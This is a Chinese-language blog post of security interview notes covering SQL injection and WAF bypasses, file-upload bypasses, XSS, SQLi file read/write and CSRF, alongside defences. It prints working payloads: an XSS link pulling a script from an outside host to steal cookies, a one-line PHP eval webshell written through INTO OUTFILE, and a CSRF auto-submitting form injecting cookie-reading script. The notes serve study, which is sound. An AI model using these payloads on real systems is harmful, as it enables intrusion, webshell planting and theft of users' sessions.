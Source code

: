 ```yaml
---
title: 网安面试问题汇总
date: 2022-02-07 12:56:59
categories: CTF
tags: [Web]
---
```


## 1.SQL注入的WAF绕过

- 白盒  框架源码，代码审计
- 黑盒绕过
  - 架构层绕过
  - 资源限制角度绕过
  - 协议层
  - 规则层面绕过

<!-- more -->

### 架构层绕过

寻找源站点地址（适用于网站使用云WAF场景）；

利用同网段主机（同网段主机可以直接交换帧，无需交换机/网桥的转发）或服务器进行内网注入

> 通过网桥连接多个以太网成为覆盖更大的以太网（局域网：以太网，令牌环网，FDDI）。

碰撞/冲突域：任意两台主机通信（使用信道时，其他主机无法通信）——介质访问控制



### 资源限制角度绕过

- 多试一试，利用数据库特性
- 改其他格式文件，burp改文件后缀
- post的内容足够多——一个大的body；由于在线WAF会考虑速度，对大文件一般不过滤；

- 借助畸形包，或者模糊测试fuzz。

### 协议层绕过

- 参数污染，代入多个参数，有的WAF只能识别一个参数，可以在第二个参数后面带sql语句。

```php
  url.php?id=1&id=2
```

### **规则层的绕过**

- 注释符号#，‘ ’空白符号，函数分割，浮点数

- error-base，mysql特殊语法绕过

## 2.文件上传漏洞的绕过

- 修改后缀
- 绕后端：MineType，即修改Content-Type类型，%00截断（伪造合法文件头）
- Content-Disposition'...' filename="1.jpg;.php" ｜｜  去掉双引号 ｜｜ 把p  h  p换行   ｜｜php5
- webshell放入jpg；改幻数头字节，判断文件格式一般靠前10个字节。

### 文件上传漏洞的防护手段

- js过滤
- 限制文件大小
- 随机数改写文件名，取消执行权限，**将文件强制重命名另存储**
- 竞争条件？？
- 后端设置白名单（更安全，使用递归过滤，防治覆写）和黑名单（可能会有遗漏，可能靠大小写可以绕过）

## 3.XSS原理

>http://www.atomsec.org/%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%B0%84%E5%9E%8Bxss%E6%B5%8B%E8%AF%95%E5%8F%8A%E4%BF%AE%E5%A4%8D/

跨站脚本攻击，允许恶意web用户将代码植入到提供给其它用户使用的页面中，用户访问时将会自动执行。

分为**存储型**，反射型和DOM型。

### 3.1 攻击办法：

闭合标签，使我的内容能被解析成可执行语句；对url和参数进行各种编码（比如16禁止和8进制）

### 3.2 防御手段：

将特殊字符过滤(",<,>,&"),使其成为不能被html执行的字符；

做白名单过滤，专门过滤，使用**内容安全的策略CSP**（规定客户端哪些内容可以加载）；

禁止非同源网站读cookie

- 反射型（给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须**用户点击带有特定参数的链接**才能引起。）

- 存储型——把用户cookie信息发到攻击者服务器

```js
在搜索框输入这一行在服务器上直接被解析成了js语句；
　“<script>alert(1)</script>”
search.php?q=%3Cscript+src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E
```

当用户登陆了网站后，再欺骗用户点击这个链接才可以窃取用户的cookie。

## 深信服安全岗面试题

1.sql注入如何读写文件，二次注入，防御方式？

```sql
#读：
select load_file('C:\\key.txt')
#写：
开权限：secure_file_priv into outfile
unoion select 1,'<?php @eval($_POST[‘mima’]);?>',3 into outfile "C:\\test\shellcode.php"
#二次注入
admin'--  #借助--把后面的语句注释了
select ... username='admin'--  and password='xxx'
#sql注入的防御
- 预编译，例如Java中PrepareStatement，从结构上限制编写；
Mybatis？？ #预编译  $进行替换
- 参数判断，强转参数int(and 1==1--+)

```

2.CSRF和XSS的区别

XSS，原来叫做CSS (Cross Site Script) ，跨站调用脚本攻击站内的信任用户，盗取cookie；

CSRF通过伪装成受信任用户请求受信任的网站；

```asp
<%
s = "<form method='post' action='http://hi.baidu.com/yuxi4n/commit'>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='5' name='ct'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='1' name='spCssUse'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='1' name='spCssColorID'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='-1' name='spCssLayoutID'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='http://hi.baidu.com/yuxi4n/modify/spcss/20f51f4f94129a36aec3ab11.css/edit' name='spRefURL'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='5' name='cm'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='</style><script>alert(document.cookie)</script><style>' name='spCssText'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='abc' name='spCssName'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='0' name='spCssTag'/>"
s = s+"</form>"
s = s+"<script>document.forms[0].submit();</script>"
Response.write(s)
%>
```



防御手段：CSRF Token+Referer的验证

> http://huaidan.org/archives/2561.html,借助CSRF和其他手段，可以把反射型XSS持久化利用，不一定需要用户去点击特殊构造的链接。



